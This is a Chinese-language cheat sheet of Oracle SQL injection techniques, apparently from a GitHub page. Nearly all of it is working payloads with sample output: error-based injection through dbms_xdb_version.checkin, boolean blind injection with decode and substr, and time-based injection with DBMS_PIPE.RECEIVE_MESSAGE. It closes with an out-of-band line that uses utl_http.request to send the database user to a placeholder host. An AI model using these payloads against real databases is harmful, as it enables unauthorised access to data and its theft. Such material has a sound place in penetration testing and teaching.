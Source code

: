 ##### 利用 dbms_xdb_version.checkin

此函数检入已签出的VCR，并返回新创建版本的资源ID。

CHECKIN函数用法：DBMS_XDB_VERSION.CHECKIN(   pathname VARCHAR2) 
- 返回：DBMS_XDB.resid_type;  
- 如果路径名不存在，则会引发异常。

例如：
```SQL> select * from users where id=1 and '0x2e'=(select dbms_xdb_version.checkin((select user from dual))from dual);select * from users where id=1 and '0x2e'=(select dbms_xdb_version.checkin((select user from dual))from dual)```

结果如下：
```*ERROR at line 1:ORA-31001: Invalid resource handle or path name "SQLI"```

需要注意使用二进制数据类型:
- dbms_xdb_version.makeversioned

MAKEVERSIONED函数用法：DBMS_XDB_VERSION.MAKEVERSIONED(   pathname   VARCHAR2) 
- 返回 DBMS_XDB.resid_type;
- 如果资源不存在，则会引发异常。
- 需要注意使用二进制数据类型

#### 盲注

decode函数用来比较:
```sql
SQL> select * from users where id=1 and 1=(select decode(user,'SQLI',1) from dual);
SQL> select * from users where id=1 and 'S'=(select substr(user,1,1)from dual);
```
注意：需要注意大小写的问题

延时注入（用来判断注入点）：
```SQL> select count(*) from all_objects;```

利用了oracle管道功能接收消息的函数RECEIVE_MESSAGE，实现延时注入:
```sql
DBMS_PIPE.RECEIVE_MESSAGE (
   pipename     IN VARCHAR2,
   timeout      IN INTEGER      DEFAULT maxwait)
RETURN INTEGER;
```

简单的使用
```SQL> select dbms_pipe.receive_message('aaa',3) from dual;```

结果：
```DBMS_PIPE.RECEIVE_MESSAGE('AAA',3)```

```SQL> select dbms_pipe.receive_message('aaa',(decode((select user from dual),'SQLI',3))) from dual;```


带外攻击OOB（Out Of Band）:
- 既然是带外攻击，自然需要connect
```sql
utl_http.request
UTL_HTTP.REQUEST (
   url              IN VARCHAR2,
   proxy            IN VARCHAR2 DEFAULT NULL,
   wallet_path      IN VARCHAR2 DEFAULT NULL,
   wallet_password  IN VARCHAR2 DEFAULT NULL)
RETURN VARCHAR2;

SQL> select utl_http.request('http://ip/?result='||(select user from dual))from dual;
```
